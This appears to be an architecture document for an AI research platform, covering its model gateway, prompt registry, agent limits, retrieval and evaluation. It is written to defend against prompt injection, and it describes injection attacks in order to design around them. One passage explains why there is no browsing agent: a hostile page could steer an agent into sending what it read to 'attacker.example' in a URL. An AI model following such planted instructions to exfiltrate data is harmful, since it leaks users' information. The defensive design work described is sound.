


# AI Architecture

The AI layer is designed around one idea: **models propose, code disposes.** Models plan,
extract, analyse and write inside strict schemas; deterministic code decides control flow,
authorisation, budgets, and what is allowed to reach a model or leave the platform.

## 1. LLM gateway (`argus.modules.llm`)



* **Request contract** - `LLMRequest(task, prompt, parts, output_schema, tools, max_output_tokens,
  metadata)`. `parts` are typed: `TrustedInstruction` (from the prompt registry only),
  `UserRequest` (the tenant's own text) and `UntrustedData` (web pages, documents, tool results).
  The provider adapters render `UntrustedData` inside nonce-delimited blocks with provenance
  attributes and an explicit reminder that the block is data; untrusted text is never interpolated
  into the system prompt.
* **Routing** - `configs/llm_routing.yaml` maps each task to an ordered list of candidate models.
  Default: `claude-opus-5-5` for `research.plan`, `analysis.*`, `verification.*`, `report.*`;
  `claude-sonnet-5-5` for bulk `extraction.*`; `claude-haiku-4-5` for `security.classify`;
  `local/extractive` last in every route so the platform degrades instead of failing when allowed.
* **Governance** - the request's highest data classification is compared with the organisation's
  policy for the provider's locality (`external` / `self_hosted` / `local`):
  `allowed`, `restricted` (requires an approval on the job) or `never`. Blocked candidates are
  skipped and the decision is logged.
* **Reliability** - per-attempt deadline; retries only for retryable errors (timeouts, 429, 5xx,
  overloaded) with full-jitter backoff honouring `retry-after`; circuit breaker per provider-model;
  fallback to the next candidate; malformed structured output gets one repair attempt that
  includes the validation error.
* **Accounting** - every attempt writes an `llm_requests` row (task, provider, model, prompt name,
  version and hash, tokens in/out/cache, cost, latency, outcome) and updates `llm_usage_daily`.
  Budgets are checked **before** the call (estimated) and charged **after** it (actual) at three
  levels: agent run, research job, organisation month.
* **Claude specifics** - official `anthropic` SDK (`AsyncAnthropic`, `max_retries=0` because the
  gateway owns retries), structured outputs through `output_config.format` with a JSON schema
  generated from the Pydantic model, adaptive thinking with explicit `effort` per task, refusal
  handling (`stop_reason == "refusal"` is a non-retryable outcome that moves to the next candidate)
  and the server-side refusal fallback enabled by default for Opus.

## 2. Prompt management (`prompts/`, `argus.modules.llm.prompts`)

Each prompt version is a YAML file `prompts/<name>/v<N>.yaml`:

```yaml
name: research.plan
version: 1
purpose: Turn a research objective into a bounded, machine-readable plan.
model_requirements: {capabilities: [structured_output], tier: reasoning}
input_schema: {objective: str, max_queries: int, max_sources: int, mode: str}
output_schema: argus.modules.research.schemas:ResearchPlan
security:
  untrusted_inputs: []          # the planner sees only the user's own objective
  tools: []
evaluation: {dataset: evals/datasets/planning.yaml, metrics: [schema_valid, query_count, coverage]}
system: |
  You are the research planner of an intelligence platform...
user: |
  Objective: {{ objective }}
```

The registry validates every file at start-up (unique name+version, schema import paths resolve,
template variables match `input_schema`, untrusted inputs are not referenced from `system`).
Templates render in a Jinja2 `SandboxedEnvironment` with `StrictUndefined`. The active version per
environment lives in `prompt_deployments`; rollback is a single audited update. Every LLM call
records the prompt name, version and SHA-256 of the rendered text.

## 3. Agents (`argus.modules.agents`)

An agent is an `AgentSpec` plus a prompt; the `AgentRuntime` enforces the spec. A model is used
only where judgement is needed - everything that can be deterministic is code.

| Agent | Job | Tools | Reads untrusted data | Limits (default) | Status |
|---|---|---|---|---|---|
| Planner | objective → research plan | - | no | 1 iteration | ✅ phase 12 |
| Search, Web Research, Collector | plan queries → search provider → SSRF-safe fetcher → index | none - deterministic code in the collect stage | - | queries and sources per job | ✅ phase 13 (code, not agents) |
| Document | parse, sanitise, chunk | deterministic code (sandboxed parser) | yes | - | ✅ phase 7 |
| Analyst | findings for a sub-question from authorised evidence | `search_documents` | yes | 2 iterations, 2 tool calls, $0.50 | ✅ phase 13 |
| Extraction | entities and attributed claims | - | yes | 1 call per batch | phase 15 |
| Entity Resolution | merge aliases, canonical names | `query_knowledge` | yes | 1 call | phase 18 |
| Comparison | compare entities/products on attributes | `query_knowledge`, `analyze_data` | yes | 2 iterations | phase 15 |
| Verification | does the cited evidence entail each claim? | - | yes | 1 call per 8 claims, $0.50 | ✅ phase 15 |
| Contradiction | conflicting claims, possible explanations | - | yes | 1 call per 10 pairs, $0.50 | ✅ phase 15 |
| Critic | rubric review of the draft report (advisory) | - | draft | 1 call, $0.50 | ✅ phase 15 |
| Report | compose the report's prose | - | yes | 1 call + 1 revision, $1.00 | ✅ phase 15 |
| Monitoring | is a detected change meaningful? | - | yes | 1 call per change | phase 17 |
| Security | second-opinion injection classification | - | yes | 1 call | phase 19 |

**Why there is no web-research agent.** A model-driven browsing loop needs `fetch_url` while it
reads untrusted pages - the exact combination the taint rule forbids: fetching is egress, and a
page could steer the agent into requesting `https://attacker.example/?q=<what it just read>`.
Follow-up research therefore goes through the trusted plan and deterministic code; the analyst
can only search what the project already holds.

Runtime guarantees (each covered by tests):

* tool calls outside the allow-list are denied and audited; arguments are validated by the tool's
  Pydantic model; every call is recorded in `tool_calls` with redacted arguments;
* iteration, tool-call, token, cost and wall-clock budgets; exceeding any of them ends the run
  with a typed termination reason;
* kill switches are checked before every model call and every tool call;
* only tools declared in `argus.modules.agents.catalogue` run, under their declared side-effect
  class;
* a job acts for its creator, re-authorised at every stage (an API key's scopes included);
* **taint rule**: no agent that reads untrusted data holds a tool with external side effects
  (the catalogue currently has *no* side-effect tools at all - notifications are sent by
  deterministic platform code, never by an agent);
* agents never invoke agents; the orchestrator is the only dispatcher.

## 4. Retrieval-augmented generation (`argus.modules.knowledge`)



* **Authorisation before retrieval**: the scope is computed from the principal before the query and
  becomes part of the `WHERE` clause; RLS applies on top. The LLM never sees unauthorised text and is
  never asked to decide what the user may see.
* **Chunking**: paragraph-aware windows (~1,200 characters, 15 % overlap), page numbers kept for PDFs,
  each chunk hashed for deduplication.
* **Embeddings**: provider-agnostic (`voyage`, and a deterministic local hashing embedder for
  offline use and tests); external providers only receive text at or below the organisation's
  external-processing ceiling - the rest stays keyword-searchable. Keyword candidates match any
  query term and are ranked by cover density; RRF and the reranker supply the precision. The
  model name is stored per chunk and queries only compare vectors
  from the same model.
* **Caching**: retrieval results are cached in Redis under a key containing the organisation, the
  project's corpus version and the query hash; any document change bumps the version.

## 5. Evidence, verification and reports

* Findings are typed `fact | inference | hypothesis | opinion | unknown` with a confidence in
  `[0, 1]`. A *fact* needs at least one supporting citation whose quote appears in the cited chunk.
* Verification checks every citation mechanically (chunk id in the evidence set, quote present
  after normalisation) and semantically (entailment judgement through the gateway). Unsupported
  claims are downgraded; if nothing survives for a question, the report says
  **"Insufficient evidence."** instead of guessing.
* Contradictions are grouped by `(entity, attribute)`; the resolver compares publication dates and
  source reputation and states the uncertainty rather than silently picking a value.
* The Critic scores the draft against a rubric (coverage, citation support, balance, clarity); a
  draft under threshold gets one revision if the budget allows.
* Exports: Markdown, JSON (the canonical schema), CSV (findings; cells neutralised against formula
  injection) and PDF.

## 6. Evaluation (`argus.modules.evaluation`, `evals/`) - implemented in phase 16

A fixed corpus with known facts and known traps (contradictory sources, injected pages, a poisoned
low-reputation source). Metrics: schema validity, citation accuracy and precision, fact recall,
hallucination rate (claims without valid support), contradiction recall, injection resistance
(no denied tool attempts, no canary leakage, no injected claims in the report), latency, cost and
run-to-run consistency. CI runs the suite deterministically with the local provider on every pull
request; a manual workflow runs it against real models when credentials are configured. Prompt or
routing changes must not regress the stored baseline.
